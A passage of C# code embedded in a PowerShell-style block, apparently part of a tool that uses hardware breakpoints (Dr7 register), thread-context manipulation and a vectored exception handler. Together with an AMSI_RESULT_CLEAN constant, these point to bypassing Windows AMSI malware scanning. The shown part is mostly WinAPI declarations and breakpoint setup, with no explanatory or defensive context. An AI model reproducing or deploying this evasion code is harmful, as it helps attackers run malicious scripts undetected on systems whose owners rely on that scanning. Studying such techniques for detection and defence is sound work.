 ```powershell
		
		ctx.Dr7 = SetBits(ctx.Dr7, 16, 16, 0);
		ctx.Dr7 = SetBits(ctx.Dr7, (index * 2), 1, 1);
		ctx.Dr6 = 0;
		
		Marshal.StructureToPtr(ctx, pCtx, true);
		}
		
		public static ulong SetBits(ulong dw, int lowBit, int bits, ulong newValue) {
			ulong mask = (1UL << bits) - 1UL;
			dw = (dw & ~(mask << lowBit)) | (newValue << lowBit);
			return dw;
		}
	}
	
	public class WinAPI {
		public const UInt32 DBG_CONTINUE = 0x00010002;
		public const UInt32 DBG_EXCEPTION_NOT_HANDLED = 0x80010001;
		public const Int32 EXCEPTION_CONTINUE_EXECUTION = -1;
		public const Int32 EXCEPTION_CONTINUE_SEARCH = 0;
		public const Int32 CREATE_PROCESS_DEBUG_EVENT = 3;
		public const Int32 CREATE_THREAD_DEBUG_EVENT = 2;
		public const Int32 EXCEPTION_DEBUG_EVENT = 1;
		public const Int32 EXIT_PROCESS_DEBUG_EVENT = 5;
		public const Int32 EXIT_THREAD_DEBUG_EVENT = 4;
		public const Int32 LOAD_DLL_DEBUG_EVENT = 6;
		public const Int32 OUTPUT_DEBUG_STRING_EVENT = 8;
		public const Int32 RIP_EVENT = 9;
		public const Int32 UNLOAD_DLL_DEBUG_EVENT = 7;
		
		public const UInt32 EXCEPTION_ACCESS_VIOLATION = 0xC0000005;
		public const UInt32 EXCEPTION_BREAKPOINT = 0x80000003;
		public const UInt32 EXCEPTION_DATATYPE_MISALIGNMENT = 0x80000002;
		public const UInt32 EXCEPTION_SINGLE_STEP = 0x80000004;
		public const UInt32 EXCEPTION_ARRAY_BOUNDS_EXCEEDED = 0xC000008C;
		public const UInt32 EXCEPTION_INT_DIVIDE_BY_ZERO = 0xC0000094;
		public const UInt32 DBG_CONTROL_C = 0x40010006;
		public const UInt32 DEBUG_PROCESS = 0x00000001;
		public const UInt32 CREATE_SUSPENDED = 0x00000004;
		public const UInt32 CREATE_NEW_CONSOLE = 0x00000010;
		
		public const Int32 AMSI_RESULT_CLEAN = 0;
		
		[DllImport("kernel32.dll", SetLastError = true)]
		public static extern bool SetThreadContext(IntPtr hThread, IntPtr lpContext);
		
		[DllImport("kernel32.dll", SetLastError = true)]
		public static extern bool GetThreadContext(IntPtr hThread, IntPtr lpContext);
		
		[DllImport("kernel32.dll", SetLastError = true)]
		public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
		
		[DllImport("kernel32", SetLastError = true, CharSet = CharSet.Ansi)]
		public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);
		
		[DllImport("Kernel32.dll")]
		public static extern IntPtr AddVectoredExceptionHandler(uint First, IntPtr Handler);
		
		[Flags]
		public enum CONTEXT64_FLAGS : uint {
			CONTEXT64_AMD64 = 0x100000,
			CONTEXT64_CONTROL = CONTEXT64_AMD64 | 0x01,
```